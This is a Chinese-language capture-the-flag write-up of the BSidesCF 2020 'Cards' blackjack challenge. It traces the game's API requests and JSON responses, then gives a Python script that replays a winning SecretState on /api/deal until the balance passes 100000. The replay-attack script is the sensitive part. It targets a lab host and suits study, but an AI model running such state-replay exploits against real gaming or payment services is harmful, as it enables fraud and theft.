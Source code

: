 # \[BSidesCF 2020]Cards

## \[BSidesCF 2020]Cards

## 考点

* 请求逻辑分析

## wp

是一个21点的游戏，一开始有1000，要赢到100000

首先，打开游戏，会先向/api发送POST请求，获取一段json，保存用户信息

```
{"SecretState":"enc1","PlayerHand":[],"DealerHand":[],"Balance":1000,"GameState":"Idle","SessionState":"Playing","Bet":0}
```

/api/config发送POST请求，返回题目配置信息，然后下注进行游戏

```
{"Goal":100000,"MinBet":10,"MaxBet":500,"GameHandler":"/game.go","DeckHandler":"/deck.go"}
```

1、点击Deal向/api/deal发送POST

```
{"Bet":500,"SecretState":"enc1"}
```

然后返回的内容是手牌信息，这时会返回一个新的SecretState

```
{"SecretState":"enc2","PlayerHand":[["7","Spades"],["8","Spades"]],"DealerHand":[["X","X"],["4","Clubs"]],"Balance":500,"GameState":"Playing","SessionState":"Playing","Bet":500}
```

2、点击Hit，向/api/hit发送POST请求

```
{"SecretState":"enc2"}
```

返回

```
{"SecretState":"enc3","PlayerHand":[["7","Spades"],["8","Spades"],["2","Clubs"]],"DealerHand":[["X","X"],["4","Clubs"]],"Balance":500,"GameState":"Playing","SessionState":"Playing","Bet":0}
```

3、点击Stand，向/api/stand发送POST请求

```
{"SecretState":"enc3"}
```

判定是玩家赢，返回新的SecretState，并且把钱加上

```
{"SecretState":"enc4","PlayerHand":[["7","Spades"],["8","Spades"],["2","Clubs"]],"DealerHand":[["King","Spades"],["4","Clubs"],["Queen","Hearts"]],"Balance":1500,"GameState":"PlayerWins","SessionState":"Playing","Bet":0}
```

4、点击Deal，向/api/deal发送POST

```
{"Bet":500,"SecretState":"enc4"}
```

返回

```
{"SecretState":"enc5","PlayerHand":[["6","Spades"],["8","Clubs"]],"DealerHand":[["X","X"],["King","Diamonds"]],"Balance":1000,"GameState":"Playing","SessionState":"Playing","Bet":500}
```

5、点击Stand，向/api/stand发送POST请求

```
{"SecretState":"enc5"}
```

返回

```
{"SecretState":"enc6","PlayerHand":[["6","Spades"],["8","Clubs"]],"DealerHand":[["7","Spades"],["King","Diamonds"]],"Balance":1000,"GameState":"DealerWins","SessionState":"Playing","Bet":0}
```

6、再点击Deal，向/api/deal发送POST

```
{"Bet":500,"SecretState":"enc6"}
```

返回

```
{"SecretState":"enc7","PlayerHand":[["9","Spades"],["Queen","Diamonds"]],"DealerHand":[["X","X"],["Jack","Hearts"]],"Balance":500,"GameState":"Playing","SessionState":"Playing","Bet":500}
```

7、点击Stand，向/api/stand发送POST请求

```
{"SecretState":"enc7"}
```

返回

```
{"SecretState":"enc8","PlayerHand":[["9","Spades"],["Queen","Diamonds"]],"DealerHand":[["9","Diamonds"],["Jack","Hearts"]],"Balance":1000,"GameState":"Push","SessionState":"Playing","Bet":0}
```

8、点击Deal，向/api/deal发送POST

```
{"SecretState":"enc8"}
```

返回

```
{"SecretState":"enc9","PlayerHand":[["Queen","Hearts"],["Ace","Spades"]],"DealerHand":[["7","Hearts"],["4","Hearts"]],"Balance":1750,"GameState":"Blackjack","SessionState":"Playing","Bet":500}
```

这里的GameState变成了Blackjack，并且余额直接增加了，是1750

如果把enc9作为SecretState，向/api/deal进行重放，直到返回包出现Blackjack，这时会增加金币为2000，返回包的SecretState为enc10，再把enc10作为SecretState，向/api/deal进行重放，这样重复下去，最后余额就会满足条件

至此逻辑就清楚了

```python
import requests
import time
start = "http://19ce24e9-5867-491a-a5b4-a646ca88a0fe.node4.buuoj.cn:81/api"
deal = start + "/deal"
 
 
state = requests.post(start).json()["SecretState"]
 
while True:
    time.sleep(0.3)
    resp = requests.post(deal, json={"Bet": 500, "SecretState": state}).json()
 
    if resp['GameState'] == 'Blackjack':
        state = resp['SecretState']
 
    print(resp['Balance'])
    if resp['Balance'] > 100000:
        print(resp)
        break
```
